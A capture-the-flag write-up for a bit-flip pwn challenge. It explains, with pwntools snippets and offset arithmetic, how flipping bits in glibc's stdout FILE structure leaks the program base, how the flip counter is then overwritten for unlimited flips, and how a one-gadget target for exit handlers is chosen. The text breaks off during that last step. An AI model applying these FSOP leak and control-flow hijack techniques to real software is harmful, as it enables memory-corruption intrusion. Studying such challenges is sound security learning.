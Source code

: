I did not solve this challenge but I decided to look back at it because I wanted to learn FSOP and overwriting exit funcs with one gadget.

## Challenge

This challenge provides us with 4 bit flips, and our addresses are calculated at an offset from `_IO_2_1_stdin_`. The path to a solution, as with many other bit flip challenges, is to first get infinite bit flips for arbitrary write. The bit flip counter is stored in the base program’s bss, but PIE is enabled. Our goal should be to leak the base address before our 4th bit flip so that we can overwrite the counter. The flip being relative to stdin hints that we will need some form of leak-oriented FSOP. (https://enzo.run/posts/lactf2024/#flipma)

```
stdout = 0xd20
write_base = stdout + 0x20
read_end = stdout + 0x10
```

First we will calculate the location of `_IO_2_1_stdin_` and its fields.

```
sla(b"a: ", "9")
sla(b"b: ", "9")
```

For this to work, we also need to make sure the _IO_CURRENTLY_PUTTING flag is set, and I initially thought we needed to use a bit flip on this, but just initializing stdout with an additional puts before the flips also works.

![image](https://github.com/user-attachments/assets/5da04128-6251-4532-99b4-1b853b01c373)

Next, we need to find a suitable location to leak the elf address. Using the search command in pwndbg, we can see there are 2 addresses in libc that contain the bytes of our elf section.

![image](https://github.com/user-attachments/assets/25c45ff4-9e6d-4f5b-8690-b90f8936ee96)

Unbuffered file streams hold libc addresses to themselves in the buffer fields.

![image](https://github.com/user-attachments/assets/5622ca66-3003-45b0-921e-33b93118e6c0)

The idea is to flip a bit in stdout->write_base `0x00007fd8a201a723` to become `0x00007fd8a2018723`. We can see that `0x7fd8a2018f4a 0xa4200000562941ac` will be located between the stdout->write_base and stdout->write_ptr.

but the file write function called from puts will treat the stream as buffered as long as there is a difference between _IO_write_base and _IO_write_ptr. This will cause the write function to print out memory from libc between those two addresses.

### Recap

To force flush the buffer with its contents:

- Ensure the _IO_CURRENTLY_PUTTING flag is set
- We need to set stdout->read_end = stdout->write_base
- Ensure stdout->write_ptr = stdout->write_end

So we will need to:

- Give an invalid index to make the program call puts with error message
- Change stdout->read_end and stdout->write_base to a location right before our leak location

```py
# _IO_write_base
sla(b"a: ", str(write_base+1))
sla(b"b: ", "5")

# _IO_read_end
sla(b"a: ", str(read_end+1))
sla(b"b: ", "5")
```

![image](https://github.com/user-attachments/assets/6829df7e-2dac-49aa-a274-27bc3c8d18ba)

After running the script above, we can see now in our IO File struct, our target is located between write_base and write_ptr.

```py
sla(b"a: ", "9")
sla(b"b: ", "9")

data = p.recvuntil(b"we're flipping bits, not burgers", timeout=1)
if len(data) < 100:
  print("failed")
  exit(1)

diff = 0x7f0c55badf4a - 0x00007f0c55bad723
elf_leak = u64(data[diff-2:diff+6])
exe.address = elf_leak - (0x55ff52d83020 - 0x55ff52d7f000)
li(f"exe addr @ {hex(exe.address)}")
```

![image](https://github.com/user-attachments/assets/ea0f0745-5cdb-45e4-a98e-669f0feeaecf)

We can find the offset of our leak by subtracting the leak location with the write_base.

```py
print(len(str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"])))
print(hex(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))

## Make flip to big number
sla(b"a: ", str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))
sla(b"b: ", "7")
```

![image](https://github.com/user-attachments/assets/428f0589-5f67-48c2-82e9-cbe7f4ac4124)

We have a lot more flips now.

### Overwrite the exit funcs to one gadget

Lets find a suitable one gadget

![image](https://github.com/user-attachments/assets/534b33e2-7fa9-4809-a3e5-dcda6d6f8454)

![image](https://github.com/user-attachments/assets/4dd71422-ae29-4fae-9dd6-d0ae420e4c72)

Set a breakpoint at `__libc_start_main` and move through each instruction until you reach the `call rdx`. We can see r12 and r15 is NULL which matches the condition for 0xe3afe
